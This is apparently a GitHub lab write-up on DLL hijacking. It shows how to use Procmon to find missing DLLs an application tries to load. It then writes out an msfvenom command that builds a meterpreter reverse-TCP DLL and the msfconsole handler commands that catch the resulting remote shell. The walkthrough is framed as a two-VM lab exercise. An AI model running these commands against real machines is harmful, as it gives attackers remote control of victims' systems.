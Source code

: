 # DLL Hijacking

DLL files contains executable code that can be used by other applications. When an application needs to use this DLL file, it has to search for it if the absolute path is not provided. If an attacker replaces his own DLL file with the name that the application is searching for, then the application loads the attacker’s DLL and executes the malicious code. This is known as DLL Hijacking Attack.

## Tools Required:
- VMWare, Procmon (Process Monitor), MsfVenom

## Lab Setup
- Create two virtual machine:
  - **Windows OS** for executing exe application *(Victim Machine)*
  - **Kali Linux** for obtain system access using reverse shell handler *(Attacker Machine)*

## POC

> ### **Step-1: Identifying vulnerable DLLs that we can Hijack.**
 - Start Application >> Open Procmon tool 
 - Apply three filters in Procmon (Menu Filter -> Filter)
```
   1. Process Name = contains = "Select Your Application Name" -> [ Add ]
   2. Path         = contains = ".dll"                         -> [ Add ] 
   3. Result       = contains = "NAME NOT FOUND"               -> [ Add ]
     
      Click [ OK ] for apply filters.
```
![Procmon](https://github.com/NayanDZ/DLLHijacking/blob/main/1.jpg)
  
> ### **Step-2: Closed the application and Re-open that application so all the process according to filter will show in** ***Procmon***  

> ### **Step-3: Now find the Dlls which are trying to load from current working application but is not available** ***(e.g: VERSION.DLL)***

![Procmon](https://github.com/NayanDZ/DLLHijacking/blob/main/3.jpg) 
            Application is trying to load VERSION.DLL but not able to find in to application directory.
            
> ### **Step-4: Next step is create malicious DLL named VERSION.DLL using** ***MsfVenom (Kali Linux)***

``` 
   $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.252.130 LPORT=8888 -f dll > VERSION.dll 
```
![MsfVenom](https://github.com/NayanDZ/DLLHijacking/blob/main/4.jpg)

> **Step-5: Now create reverse shell handler with msfconsole**

```
   $ sudo msfconsole
      
   msf > use exploit/multi/handler

   msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
   payload => windows/meterpreter/reverse_tcp

   msf exploit(multi/handler) > set LHOST 192.168.252.130  (Replace your attacker machine IP i.e Kali Linux IP)
   LHOST => 192.168.252.130

   msf exploit(multi/handler) > set LPORT 8888
   LPORT => 8888

   msf exploit(multi/handler) > exploit  
```
   Done..! 
![MsfVenom](https://github.com/NayanDZ/DLLHijacking/blob/main/5.jpg)
> **Step-6: Reverse shell handler created, now paste malicious DLL(created through Step-4) in to the application directory and launch application**

   As you can see application is trying to loan the malicious DLL without checking it and we got system reverse shell.

